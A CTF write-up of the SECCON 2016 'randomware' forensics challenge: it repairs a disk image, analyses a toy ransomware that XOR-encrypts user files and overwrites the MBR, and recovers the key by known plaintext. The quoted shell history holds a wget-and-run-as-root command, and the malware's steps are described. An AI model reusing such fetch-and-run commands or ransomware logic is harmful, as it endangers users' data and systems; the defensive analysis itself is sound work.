

# [SECCON Quals CTF 2016](http://2016.seccon.jp/): [randomware](https://score-quals.seccon.jp/question/19a84b2eeb383263660420d7aa70372120b89771)

**Category:** Forensics
**Points:** 300
**Solves:** 38
**Description:**

> randomware
>
> My PC suddenly got broken. Could you help me to recover it please?
> NOTE: The disk can be virus-infected. DO NOT RUN any programs extracted from the disk outside of sandbox.
>
> [disk.qcow2.zip](http://files.quals.seccon.jp/disk.qcow2.zip)
> Challenge files is huge, please download it first. Password will release after 60min.
>
> password: h9nn4c2955kik9qti9xphuxti

## writeup

A short, not so hard forensics challenge, but perhaps more reversing
including basic crypto. Unzipping the challenge zip (with the provided
password) it is a plain
[qcow2](https://en.wikipedia.org/wiki/Qcow) image. It is a dense
[copy-on-write](https://en.wikipedia.org/wiki/Copy-on-write)
format. To deal with it easier, let us convert it to raw
with [`qemu-img`](https://linux.die.net/man/1/qemu-img)
(included with [qemu](http://wiki.qemu.org/Main_Page):

```
$ qemu-img convert disk.qcow2 disk.raw
```

The output file looks like a raw disk image, but
partition table seems to be corrupted:

```
$ file disk.raw 
disk.raw: DOS/MBR boot sector
$ fdisk -l disk.raw
Disk disk.raw: 1 GiB, 1073741824 bytes, 2097152 sectors
Units: sectors of 1 * 512 = 512 bytes
Sector size (logical/physical): 512 bytes / 512 bytes
I/O size (minimum/optimal): 512 bytes / 512 bytes
Disklabel type: dos
Disk identifier: 0x00000000
```

Dumping the file shows lots of data, so let us try to
recover that corrupted partition table (using the
standard recovery tool [TestDisk](http://www.cgsecurity.org/wiki/TestDisk)).
Doing an "Analyse / Quick Search" with "Intel" partition
type on the raw disk image immediately reveals the
healthy FAT32 partition. It is not important, but
it can be written to the file.



Now the disk image has been fixed, FAT32 partition
is available:
```
$ fdisk -l disk.raw 
Disk disk.raw: 1 GiB, 1073741824 bytes, 2097152 sectors
Units: sectors of 1 * 512 = 512 bytes
Sector size (logical/physical): 512 bytes / 512 bytes
I/O size (minimum/optimal): 512 bytes / 512 bytes
Disklabel type: dos
Disk identifier: 0x00000000

Device     Boot Start     End Sectors    Size Id Type
disk.raw1  *       63 2088449 2088387 1019.7M  b W95 FAT32
```

Mounting it is straightforward (it starts on sector 63,
sector size is 512 bytes, so offset is `63*512=32256` (in bytes)):
```
# mount -t vfat -o offset=32256,ro disk.raw  mnt/
```

Observing the structure it can be identified as a
[Tiny Core Linux](http://tinycorelinux.net/welcome.html) system.
The custom part of the system is probably in `/mydata.tgz`,
so it should be the most interesting stuff for further investigation.

It contains a home directory for user `tc` with some basic (almost
useless) config folders, a `.mozilla` folder with a profile, and
some very interesting files in the home:
```
home/tc/.ash_history
home/tc/getflag
home/tc/h1dd3n_s3cr3t_f14g.jpg
```

Here we should not forget the challenge NOTE about virus-infection:
the `getflag` is an ELF32 binary which must not be executed (outside
a sandbox!).

Dumping the history file:
```
tce-load -wil firefox-ESR
exit
tce-load -i firefox-ESR
firefox 172.17.0.1
wget http://172.17.0.1/getflag.bin -O getflag --user-agent="Chrome"
./getflag 
chmod +x getflag 
./getflag 
sudo ./getflag 
ls
firefox h1dd3n_s3cr3t_f14g.jpg 
```

So the user invoked [`tce-load`](http://wiki.tinycorelinux.net/wiki:tce-load)
and installed Firefox-ESR, downloaded `getflag` binary (from LAN)
executed getflag (as root, probably not the best idea ;) ), and tried to open
`h1dd3n_s3cr3t_f14g.jpg` in Firefox.

Unfortunately the jpeg file is a garbage.

### reversing the malware

The binary `getflag` is an ELF32, dynamically linked and fortunately not
stripped binary:
```
$ file home/tc/getflag 
home/tc/getflag: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=60e977599ec0a53c4406d8a9a941ce736aff9064, not stripped
```

It is a short binary full of symbols, so basic usage of
[r2](http://radare.org/r/) is more than enough to understand the malware.

![pdf @sym.main]{./screenshot_r2.png}

So the malware (ranDomware) does the following:

1. Checks for user id (==`root`)
2. `wget http://172.17.0.1/h1dd3n_s3cr3t_f14g.jpg`
3. Creates `encrypt_key` with 0x400 bytes pulled from `/dev/urandom`
4. Searches `/home/tc` recursively for files with suffix
`.txt`, `.bin`, `.jpg`, `.jpeg`, `.png`, `.gif`, `.bmp`, `.tif`, `.tiff`,
`.doc`, `.docx`, `.docm`, `.xls`, `.xlsx`, `.xlsm`, `.ppt`, `.pptx`, `.pptm`,
`.odt`, `.odf`, `.xml`.
5. Encrypts and overwrites the matching files by XORing somehow with
the random `encrypt_key`.
6. And as a bonus, overwrites the MBR of the disk with a custom code. (WARNING: DO NOT TRY TO EXECUTE IT!!!)

### ranDomware vulnerability

In order to decrypt the encrypted `h1dd3n_s3cr3t_f14g.jpg`, the
random generated `encrypt_key` must be found somehow. It is not
impossible, because the malware XOR encrypts every file it founds
with exactly the same `encrypt_key`. Thus, if we find an encrypted
file (`C`) with known plaintext `P` (and with a size bigger than
the key size (0x400 = 1024 byes)), the key can be calculated
trivially:
```
encrypt_key = C[:0x400] ^ P[:0x400]
```

### searching for known plaintext

There are possible encrypted `*.xml` files with known plaintext in
`home/tc/.local/share/mime/packages/` but the size is too small.
Fortunately there is an encrypted `blocklist.xml` file in the
Firefox profile folder:
```
home/tc/.mozilla/firefox/wir5mrmb.default/blocklist.xml
```

Now the original plaintext of `blocklist.xml` must be found.
Probably it is part of the appropriate Firefox tarball.
Reading `prefs.js` from the profile dir, the variable
`gecko_mstone` identifies the version: `45.0`. Moreover,
it is surely an
[ESR](https://www.mozilla.org/en-US/firefox/organizations/faq/)
according to the previously parsed `.ash_history` file above.

Browsing the
[Firefox FTP release folder](https://ftp.mozilla.org/pub/firefox/releases/),
the [45.0esr](https://ftp.mozilla.org/pub/firefox/releases/45.0esr/)
version can be [downloaded](https://ftp.mozilla.org/pub/firefox/releases/45.0esr/linux-i686/en-US/firefox-45.0esr.tar.bz2).

Extracting the tarball `firefox/browser/blocklist.xml` matches
the encrypted `blocklist.xml` size (207840 bytes), so it is almost sure,
that the corresponding plaintext file has been found.


### Decrypting the flag

The following simple [Python3 script](./decrypt.py)
calculates the XOR key from the plaintext and
encrypted version of `blocklist.xml` and decrypts
`h1dd3n_s3cr3t_f14g.jpg`:

```python
#!/usr/bin/python3
#

key = [b'\x00']*0x400
enc = open('./home/tc/h1dd3n_s3cr3t_f14g.jpg', 'rb').read()
dec = b''

f2 = 'blocklist.xml'
c2 = open('./home/tc/.mozilla/firefox/wir5mrmb.default/' + f2, 'rb').read()
p2 = open('./firefox/browser/' + f2, 'rb').read()

for i in range(len(key)):
    key[i] = bytes([p2[i] ^ c2[i]])

for i in range(len(enc)):
    dec += bytes([enc[i] ^ ord(key[i%len(key)])])

open('./f14g_decrypted.jpg', 'wb').write(dec)
```

Displaying the output jpeg shows the flag:
```
SECCON{This is Virtual FAT too}
```


The challenge was completed in the awesome team
[OpenToAll](https://ctftime.org/team/9135) which finished as
[21st](http://ranking.quals.seccon.jp/).
